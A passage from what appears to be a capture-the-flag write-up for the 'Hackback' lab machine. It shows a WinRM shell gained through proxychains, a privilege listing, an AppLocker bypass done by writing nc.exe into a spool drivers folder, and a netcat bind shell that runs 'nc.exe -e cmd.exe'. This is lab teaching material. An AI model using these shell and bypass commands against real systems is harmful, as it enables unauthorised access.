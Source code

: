 I can connect successfully and now have a shell as user `simple`:

```
# proxychains ./winrm-simple.rb 
ProxyChains-3.1 (http://proxychains.sf.net)
PS hackback\simple@HACKBACK Documents>

PS hackback\simple@HACKBACK util> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

PS hackback\simple@HACKBACK util> net users simple
User name                    simple
Full Name                    simple
[...]

Local Group Memberships      *project-managers     *Remote Management Use
                             *Users                
```

No user flag yet though.

### Escalating to user hacker

That WinRM shell was very slow so I spawned a bind shell on port 4442 with netcat to speed things up a little bit.

Initially I tried uploading netcat to `\programdata` but found out that AppLocker was blocking it so instead I uploaded it to a directory not controlled by AppLocker:`./hackback_write.py "/Windows/System32/spool/drivers/color/nc.exe" nc.exe`

```
C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe -L -p 4442
[...]
# proxychains nc -nv 127.0.0.1 4442
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4442.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\util>whoami
whoami
hackback\simple
```

There's an interesting directory `c:\util` that contains a bunch of different tools:
